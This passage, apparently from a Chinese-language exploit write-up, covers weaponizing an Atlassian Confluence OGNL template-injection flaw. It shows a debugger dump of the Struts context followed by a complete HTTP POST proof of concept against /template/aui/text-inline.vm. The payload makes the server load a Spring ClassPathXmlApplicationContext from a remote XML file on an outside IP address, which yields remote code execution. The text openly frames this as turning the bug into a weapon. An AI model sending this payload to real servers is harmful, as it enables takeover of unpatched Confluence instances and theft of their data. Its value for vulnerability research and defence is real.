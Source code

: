 ```plain
  "loginfilter.already.filtered" -> {Boolean@66513} true
  "com.atlassian.confluence.impl.profiling.DecoratorTimings" -> {DecoratorTimings@66555} 
  "org.apache.catalina.AccessLog.RemoteAddr" -> "127.0.0.1"
"session" -> {SessionMap@66443}  size = 1
"com.opensymphony.xwork2.dispatcher.PageContext" -> {PageContextImpl@66445} 
"com.opensymphony.xwork2.util.ValueStack.ValueStack" -> {OgnlValueStack@60828} 
"com.opensymphony.xwork2.ActionContext.container" -> {ContainerImpl@66448} 
"com.opensymphony.xwork2.dispatcher.HttpServletRequest" -> {StrutsRequestWrapper@60863} 
"com.opensymphony.xwork2.dispatcher.HttpServletResponse" -> {OAuthFilter$OAuthWWWAuthenticateAddingResponse@66451} 
"last.property.accessed" -> null
"com.opensymphony.xwork2.ActionContext.parameters" -> {HttpParameters@66454}  size = 2
"com.opensymphony.xwork2.dispatcher.ServletContext" -> {StandardContext$NoPluggabilityServletContext@66456} 
"last.bean.accessed" -> null
"com.opensymphony.xwork2.ActionContext.application" -> {ApplicationMap@66459}  size = 21
"com.opensymphony.xwork2.ActionContext.session" -> {SessionMap@66443}  size = 1
"application" -> {ApplicationMap@66459}  size = 21
"attr" -> {AttributeMap@66463} Unable to evaluate the expression Method threw 'java.lang.UnsupportedOperationException' exception.
"current.property.path" -> null
"parameters" -> {HttpParameters@66454}  size = 2
```

其中`.KEY_velocity.struts2.context`对应获取 context 上下文，那么这些其他的属性呢？我们也是可以获取的，是否有其他利用点呢？我相信答案肯定是有的，这里笔者就不偏离主题了，只阐述一下一种可能的思路。今天的重点是武器化

# 0-2 武器化实现

## 0-2.1 出网

### 0-2.1.1 ClassPathXmlApplicationContext

出网的话解决方法也好说，Poc 如下

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 193

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=#a=new org.springframework.context.support.ClassPathXmlApplicationContext('http://8.130.24.188:8888/1.xml')
```
